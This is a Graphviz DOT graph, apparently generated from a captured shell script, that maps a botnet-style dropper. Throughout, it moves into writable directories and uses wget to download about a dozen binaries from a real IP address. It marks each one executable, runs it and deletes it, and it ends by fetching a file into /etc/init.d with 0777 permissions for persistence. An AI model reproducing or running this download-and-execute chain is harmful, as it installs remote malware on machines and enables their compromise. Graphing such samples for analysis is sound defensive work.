 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://130.193.12.67/ajalungka "];
10 -> 12 [label=";,"];
12 [label="chmod +x ajalungka "];
12 -> 14 [label=";,"];
14 [label="./ajalungka "];
14 -> 16 [label=";,"];
16 [label="rm -rf ajalungka "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://130.193.12.67/ajamango "];
28 -> 30 [label=";,"];
30 [label="chmod +x ajamango "];
30 -> 32 [label=";,"];
32 [label="./ajamango "];
32 -> 34 [label=";,"];
34 [label="rm -rf ajamango "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://130.193.12.67/ajaopenggl "];
46 -> 48 [label=";,"];
48 [label="chmod +x ajaopenggl "];
48 -> 50 [label=";,"];
50 [label="./ajaopenggl "];
50 -> 52 [label=";,"];
52 [label="rm -rf ajaopenggl "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://130.193.12.67/ajavast "];
64 -> 66 [label=";,"];
66 [label="chmod +x ajavast "];
66 -> 68 [label=";,"];
68 [label="./ajavast "];
68 -> 70 [label=";,"];
70 [label="rm -rf ajavast "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://130.193.12.67/ajagreyps "];
82 -> 84 [label=";,"];
84 [label="chmod +x ajagreyps "];
84 -> 86 [label=";,"];
86 [label="./ajagreyps "];
86 -> 88 [label=";,"];
88 [label="rm -rf ajagreyps "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://130.193.12.67/ajakuhamo "];
100 -> 102 [label=";,"];
102 [label="chmod +x ajakuhamo "];
102 -> 104 [label=";,"];
104 [label="./ajakuhamo "];
104 -> 106 [label=";,"];
106 [label="rm -rf ajakuhamo "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://130.193.12.67/ajamarco "];
118 -> 120 [label=";,"];
120 [label="chmod +x ajamarco "];
120 -> 122 [label=";,"];
122 [label="./ajamarco "];
122 -> 124 [label=";,"];
124 [label="rm -rf ajamarco "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://130.193.12.67/ajachikos "];
136 -> 138 [label=";,"];
138 [label="chmod +x ajachikos "];
138 -> 140 [label=";,"];
140 [label="./ajachikos "];
140 -> 142 [label=";,"];
142 [label="rm -rf ajachikos "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://130.193.12.67/ajapchikos "];
154 -> 156 [label=";,"];
156 [label="chmod +x ajapchikos "];
156 -> 158 [label=";,"];
158 [label="./ajapchikos "];
158 -> 160 [label=";,"];
160 [label="rm -rf ajapchikos "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://130.193.12.67/ajacos "];
172 -> 174 [label=";,"];
174 [label="chmod +x ajacos "];
174 -> 176 [label=";,"];
176 [label="./ajacos "];
176 -> 178 [label=";,"];
178 [label="rm -rf ajacos "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://130.193.12.67/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://130.193.12.67/ajafacebook3 "];
208 -> 210 [label=";,"];
210 [label="chmod +x ajafacebook3 "];
210 -> 212 [label=";,"];
212 [label="./ajafacebook3 "];
212 -> 214 [label=";,"];
214 [label="rm -rf ajafacebook3 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://130.193.12.67/ajanetdelds "];
226 -> 228 [label=";,"];
228 [label="chmod +x ajanetdelds "];
228 -> 230 [label=";,"];
230 [label="./ajanetdelds "];
230 -> 232 [label=";,"];
232 [label="rm -rf ajanetdelds "];
232 -> 234 [label=";,"];
234 [label="cd /etc/init.d "];
234 -> 234
236 [label="wget http://130.193.12.67/haktung "];
236 -> 238 [label=";,"];
238 [label="chmod 0777 haktung "];
238 -> 240 [label=";,"];
240 [label="./haktung "];
240 -> 241 [label=";,"];
}
